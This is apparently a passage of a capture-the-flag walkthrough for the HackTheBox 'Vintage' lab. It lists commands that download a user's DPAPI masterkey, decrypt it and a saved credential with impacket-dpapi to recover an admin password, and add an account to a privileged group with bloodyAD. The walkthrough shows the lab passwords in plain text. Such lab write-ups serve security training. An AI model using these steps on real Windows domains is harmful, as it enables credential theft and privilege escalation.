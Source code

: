 **ORIGINAL**

![](images/media/image24.png){width="3.9559022309711285in"
height="0.7440758967629046in"}

**R4.**

INFO:

**RUN: cd
C:\\Users\\C.Neri\\AppData\\Roaming\\Microsoft\\Protect\\S-1-5-21-4024337825-2033394866-2055507597-1115**

**RUN: dir -h (lists files and folders in WINDOWS)**

**RUN: download 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b**

**R5.**

INFO: Enter the decription

**RUN: impacket-dpapi masterkey -file
99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid
S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne**

**R6.**

INFO:

**RUN: impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6
-key
0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a**

**IT SHOULD RESULT LIKE THIS: The password of c.neri_adm is:
Uncr4ck4bl3P4ssW0rd0312**

**R7.**

INFO: The next step is to add C.NERI_ADM to DELEGATEDADMINS (c.neri ??)

**SVC_SQL added to DELEGATEDADMINS**

**RUN: bloodyAD \--host dc01.vintage.htb \--dc-ip 10.10.11.45 -d
\"VINTAGE.HTB\" -u c.neri_adm -p \'Uncr4ck4bl3P4ssW0rd0312\' -k add
groupMember \"DELEGATEDADMINS\" \"SVC_SQL\"**

![](images/media/image25.png){width="6.298611111111111in"
height="0.2986111111111111in"}

